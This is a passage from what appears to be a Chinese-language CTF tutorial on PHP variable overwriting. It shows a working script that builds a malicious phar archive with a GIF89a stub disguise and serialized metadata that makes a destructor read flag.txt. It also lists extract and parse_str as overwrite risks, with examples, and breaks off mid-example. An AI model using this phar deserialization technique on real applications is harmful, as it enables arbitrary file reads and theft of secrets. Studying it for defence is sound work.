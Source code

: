 ```php
    }

    function __destruct()
    {
        echo "Breaking news! at file: ".$this->file."<br>";
        if($file === "fake.txt")
        {
            echo "oops, I am a fake media.";
            exit();
        }


        echo file_get_contents($this->file) ."<br>";

    }
}
    //生成对应可被利用的对象
    $o = new web_content();
    $o->file='flag.txt';


    @unlink("phar.phar"); //删除原有文件
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头用以欺骗检测，虽然我的题里没有检测
    $phar->setMetadata($o); //将自定义meta-data存入manifest，这里是关键
    $phar->addFromString("test.txt", "testlalalalal"); //添加要压缩的文件，这里没有用到文件里的内容所以随便填
    $phar->stopBuffering();//添加签名并结束生成
?>
```
利用phar反序列化覆盖file变量  
![](imgs/phar_unserialize.png)

#### 可能导致变量覆盖的函数
名称 | 参数 | 备注 |
 :- | :- | :-
extract | (数组[, flag]) | 根据数组的对应关系，定义并初始化变量。其变量名为数组键名称，变量值为数组键值。如果出现数组中的键名与现存变量名有冲突，是否覆盖根据flag值决定。默认值EXTR_OVERWRITE为无条件覆盖，EXTR_SKIP为不覆盖。更多的标志值暂不在这列出
parse_str | (字符串 [， 数组]) | 解析字符串，将变量赋值给参数二的数组中，如果没有指定参数二，则会直接定义相应的变量
举几个栗子
```php
<?php
//extract函数使用不当
$file = "fake.txt";
echo $file."<br>"; // >> fake.txt<br>

$list = array("file" => "flag.txt");
extract($list);
echo $file."<br>"; // >> flag.txt<br>

//parse_str函数使用不当
$str = "file=password.txt";
```